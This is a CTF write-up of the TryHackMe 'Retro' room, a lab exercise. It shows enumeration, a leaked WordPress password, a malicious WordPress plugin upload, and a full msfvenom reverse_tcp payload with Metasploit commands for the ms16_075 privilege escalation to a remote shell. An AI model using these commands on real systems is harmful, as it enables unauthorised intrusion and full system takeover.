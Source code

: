 ```yaml
---
title: "TryHackMe Retro: Writeup"
permalink: /thm-retro-writeup/
categories:
  - CTFs
  - TryHackMe
  - Writeup
date: 2023-12-14
tags:
  - TryHackMe
  - CTF
  - Metasploit
  - Retro
  - THM
  - WordPress
  - NixOS-Hacking
---
```


---

The [Retro](https://tryhackme.com/room/retro) machine on [TryHackMe](https://tryhackme.com/) is ranked `hard`, and is themed around retro gaming, books, sci-fi, and general retro nerd stuff. It is an interesting machine with a ton of fun ester-eggs/references and gaining root is rather challenging.

## Index

1. [Enumeration](#enumeration)
2. [Foothold](#foothold)
3. [Getting User](#getting-user)
4. [Getting Root](#getting-root)

## Enumeration

Lets start by setting a temporary environment variable: `export IP="<MACHINE_IP>"`. On a Kali box, I would add an entry to `/etc/hosts` but because I did this challenge from a [NixOS](https://nixos.org/) machine and, temporary changes to config files like that are generally against the Nix ethos, I set an environment variable. 

I started with a port scan, and decided to use a newer port scanning utility called [RustScan](https://github.com/RustScan/RustScan): `rustscan -a $IP -- -T4 -sV -oN 'version.nmap'`. This port scan resulted in two open ports being discovered:
```
PORT     STATE SERVICE       REASON  VERSION
80/tcp   open  http          syn-ack Microsoft IIS httpd 10.0
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Note:** the entry in the version category labeled `Microsoft Terminal Services` is a little misleading as `Microsoft Terminal Services` was renamed to `Remote Desktop Services`.

The above port scan suggests that we're dealing with a windows machine running a web server. So, let's run a [Gobuster](https://www.kali.org/tools/gobuster/) scan: `gobuster dir -w ~/Documents/wordlist/dirbuster/directory-list-2.3-medium.txt -u http://$IP -o web-dirs-2.gob`. This Dir scan revealed the following directories among others:
```
...
/retro                (Status: 301) [Size: 150] [--> http://<IP>/retro/]
...
```
That gives us the answer to the first question on [TryHackMe](https://tryhackme.com/). Running a followup scan of the `/retro` sub-directory, indicates that the site is powered by [WordPress](https://wordpress.com/). 
```
...
/wp-content           (Status: 301) [Size: 161] [--> http://<IP>/retro/wp-content/]
/wp-includes          (Status: 301) [Size: 162] [--> http://<IP>/retro/wp-includes/]
/wp-admin             (Status: 301) [Size: 159] [--> http://<IP>/retro/wp-admin/]
...
```
The Hint for the user flag states, "Don't leave sensitive information out in the open, even if you think you have control over it," which seems to suggest that there are credentials hidden somewhere on the site.

## Foothold

After mapping out the site's directory structure, it becomes clear that there is only one author on the site; `Wade`, who is likely also the sites admin. lets go take a look at Wade's profile and see what we can find. On his Author page we see a list of posts (all on the home page) but, importantly there is a "WordPress.org" link, a "Log in" link, along with a "Recent Comments" section. These links tell us that,

1. we were right about Retro being a WordPress site,
2. we can login (should we find credentials),
3. and, due to the "Ready Player One" post being the odd one out, that there's probably something interesting in that comment that Wade left on it.

Let's click the comment link.

The comment reads:
```
Leaving myself a note here just in case I forget how to spell it: parzival
```
and the post makes mention of the fact that Wade, `keep[s] mistyping the name of his avatar whenever I log in`. Putting two and two together and there's a solid chance that, `parzival` is the password for the user, `Wade`. Let's test that hypothesis by going to the afore-mentioned login page (`http://<MACHINE_IP>/retro/wp-login.php`) and trying the aforementioned credentials.

They work! 

Hmm, I wonder if these credentials would also work for the RDP client running on port `3389`. Lets spin up an RDP connection to the machine using [Remmina](https://gitlab.com/Remmina/Remmina) and see. Indeed we can login to the server over RDP using the username: `Wade`, and the password: `parzival`. Sweet! We now have two avenues of attack.     

Foothold acquired!

## Getting User

The easiest way to get the user flag in my opinion, is to log in as the user `Wade` using RDP. Once logged in we can open the "user.txt" file on Wades desktop in Notepad and Copy the contents using `CTRL + C`. Because of the lovely RDP protocol, this will copy the flag to the clipboards of both the windows-based victim machine *and* our Linux-based attacker machine.

User flag acquired!

## Getting Root

We now have admin access to server and as such can upload/edit the PHP files to get [Remote Code Execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution). Since the web server is being hosted on a windows machine let's try for a [Metasploit](https://docs.metasploit.com/) [Meterpreter](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/) shell. to get this shell lets use [this repo](https://github.com/wetw0rk/malicious-wordpress-plugin). Clone the repo and `cd` into the directory, then run the python script with your TryHackMe VPN IP, an available port number, and the string `Y`. The command will look something like this: `python wordpwn.py <THM-VPN-IP> 4444 Y`. This python script will do two things for us:

1. generate the malicious WordPress plugin for us, (saved in file: `malicious.zip` in the current directory)
2. and, it will also start a Meterpreter console for us!  

Next we'll install the plugin by going to the `Plugins` tab -> `Add New` -> click on `Upload Plugin` -> click on `Browse` and finally select the `malicious.zip` file from the git repo we cloned before. Click `Install Now` then once the page finishes loading click `Activate Plugin` and wait again for the page to load. Finally, our malicious plugin is installed! Time to get a low privileged shell. Go to this sub-directory: `/retro/wp-content/plugins/malicious/wetw0rk_maybe.php` to initiate the shell. 

In a new terminal, make an `exploit.exe` with [msfvennom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html): `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<THM-VPN-IP> LPORT=5555 -f exe > exploit.exe`. Use the meterpreter shell from before to upload that `exploit.exe` file: `upload exploit.exe ./`. 

In a second Metasploit session run an `exploit/multi/handler` and set the port to `5555`. In the first meterpreter shell from before run the `exploit.exe`, with: `execute -f exploit.exe`. This will give us a, `windows/meterpreter/reverse_tcp` session whereas before we had a, `php/meterpreter/reverse_tcp`. `windows/meterpreter/reverse_tcp` meterpreter shell has more features and will allow us to use the `exploits/windows/local/ms16_075_reflection_juicy` exploit for privesc (doing so will spin up yet another meterpreter session). In the new meterpreter session, background meterpreter, then run:
1. `use exploits/windows/local/ms16_075_reflection_juicy`
2. `set payload windows/meterpreter/reverse_tcp` 
3. `set LHOST <THM-VPN-IP>`
4. `set LPORT 6666`
5. `set session 1`
6. `exploit`
7. wait...
after some time you'll have a new meterpreter session with admin privileges. Finally we can download the flag with: `download c:/users/administrator/desktop/root.txt.txt`.

Root flag acquired!
<br>
<audio controls src="/assets/sounds/smb-level-clear.mp3"> <a href="/assets/sounds/smb-level-clear.mp3"> super Mario level up sound </a> </audio> <br>

I look forward to seeing you in cyber-space,

Eoghan West (Calacuda)

<br>

<hr style="text-align:center">

## References:
1. [NixOS](https://nixos.org/) the NixOS download page
2. [RustScan](https://github.com/RustScan/RustScan) GitHub repo and documentation for RustScan, a port scanner written in [Rust](https://www.rust-lang.org/)
3. [Gobuster](https://www.kali.org/tools/gobuster/) GitHub repo for Gobuster directory busting tool 
4. [TryHackMe](https://tryhackme.com/) the host of this CTF
5. [WordPress](https://wordpress.com/) a website hosing framework
6. [Remmina](https://gitlab.com/Remmina/Remmina) a remote client for VNC, RDP, SSH, etc
7. [Remote Code Execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution) Wikipedia article for RCE
8. [Metasploit](https://docs.metasploit.com/) documentation for the Metasploit Framework 
9. [Meterpreter](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/) documentation for meterpreter (a part of the Metasploit framework)
10. [Malicious WordPress Plugin](https://github.com/wetw0rk/malicious-wordpress-plugin) the GitHub repo hosting the malicious plugin used to gain a foot hold against root
11. [msfvennom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) a tool for generating payloads to get remote shells, (part of the Metasploit framework)